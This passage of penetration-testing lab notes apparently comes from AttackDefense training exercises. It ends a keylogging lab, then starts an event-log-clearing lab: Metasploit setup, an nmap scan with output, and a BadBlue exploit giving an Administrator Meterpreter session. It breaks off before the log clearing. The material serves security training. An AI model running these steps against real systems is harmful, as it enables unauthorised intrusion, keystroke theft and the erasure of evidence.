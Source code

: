 * Stop the sniffer

```bash
meterpreter > keyscan_stop
    Stopping the keystroke sniffer...
```

***

## Lab 9 - Clearing Event Logs <a href="#lab-9-clearing-event-logs" id="lab-9-clearing-event-logs"></a>

> 🔬 Same as Lab 8 - [Windows: File and Keylogging](https://attackdefense.com/challengedetails?cid=1955)
>
> * Target IP: `10.2.26.66`
> * Metasploit **clearev** `Meterpreter` option

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 10.2.26.66
setg RHOST 10.2.26.66
workspace -a Clearenv
db_nmap -sV 10.2.26.66
```

```bash
[*] Nmap: Not shown: 991 closed ports
[*] Nmap: PORT      STATE SERVICE            VERSION
[*] Nmap: 80/tcp    open  http               BadBlue httpd 2.7
[*] Nmap: 135/tcp   open  msrpc              Microsoft Windows RPC
[*] Nmap: 139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
[*] Nmap: 445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
[*] Nmap: 3389/tcp  open  ssl/ms-wbt-server?
[*] Nmap: 49152/tcp open  msrpc              Microsoft Windows RPC
[*] Nmap: 49153/tcp open  msrpc              Microsoft Windows RPC
[*] Nmap: 49154/tcp open  msrpc              Microsoft Windows RPC
[*] Nmap: 49155/tcp open  msrpc              Microsoft Windows RPC
[*] Nmap: Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

### Exploitation <a href="#exploitation-5" id="exploitation-5"></a>

```bash
use exploit/windows/http/badblue_passthru
options
run
```

```bash
meterpreter > sysinfo
    Computer        : WIN-OMCNBKR66MN
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x86/windows
    
meterpreter > getuid
    Server username: WIN-OMCNBKR66MN\Administrator
```
